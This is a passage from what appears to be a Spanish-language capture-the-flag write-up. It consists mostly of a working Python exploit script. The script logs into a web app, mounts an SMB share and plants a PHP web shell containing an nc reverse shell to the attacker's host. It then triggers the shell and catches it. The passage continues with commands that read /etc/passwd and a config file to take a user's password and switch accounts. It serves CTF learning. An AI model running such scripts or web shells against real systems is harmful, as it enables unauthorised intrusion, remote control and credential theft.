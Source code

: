 ```python

    urllib3.disable_warnings()

    s = requests.session()
    s.verify = False

    data_post = {
        'username': username,
        'password': password
    }

    r = s.post(login_url, data=data_post)

    os.system("mkdir /mnt/montura")
    os.system('mount -t cifs //10.10.10.123/Development /mnt/montura -o username="null",password="null",domain="WORKGROUP",rw')
    time.sleep(2)
    os.system("echo \"<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f'); ?>\" > /mnt/montura/reverse.php")
    os.system("umount /mnt/montura")
    time.sleep(2)
    os.system("rm -r /mnt/montura")

    r = s.get(rce_url)

if __name__ == '__main__':

    username, password = getCreds()

    try:
        threading.Thread(target=makeRequest, args=(username, password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```

### Userpivoting {-}

```bash
grep "sh$" /etc/passwd
pwd
ls -l
cat mysql_data.conf
```

Vemos la contraseña del usuario friend y nos podemos convertir con el comando 
```bash
 su friend 
```
 y leer la flag.
## Privilege Escalation {-}
